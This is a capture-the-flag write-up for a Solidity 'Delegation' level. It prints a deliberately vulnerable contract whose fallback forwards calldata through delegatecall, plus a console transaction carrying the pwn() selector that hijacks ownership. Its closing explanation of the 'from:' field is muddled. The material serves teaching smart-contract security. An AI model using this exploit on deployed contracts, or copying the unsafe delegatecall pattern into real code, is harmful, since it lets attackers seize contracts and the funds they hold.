

***Delegation***

The goal of this level is for you to claim ownership of the instance you are given.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

`delegatecall` is a low level function similar to `call`.

When contract A executes delegatecall to contract B, B's code is executed with contract A's storage, msg.sender and msg.value.

If we use the console `await sendTransaction({from:"", to:"", data:""})`, we can trigger the fallback function in Delegation.

We're calling pwn() through the fallback function to modify this contract's expected behavior.

Using Remix IDE or the console, invoke Delegation.sol’s fallback function:

```
await sendTransaction({
  from: <your address>,
  to: <target contract instance>,
  data: "0xdd365b8b0000000000000000000000000000000000000000000000000000000000000000"
});
```

That `data` value is = `(bytes4(sha3("pwn()"))`

The result is a contract that hands itself the `msg.data` you've provided, including a new value for the `from:`.

If you've done it right, you've now become the owner of the target!

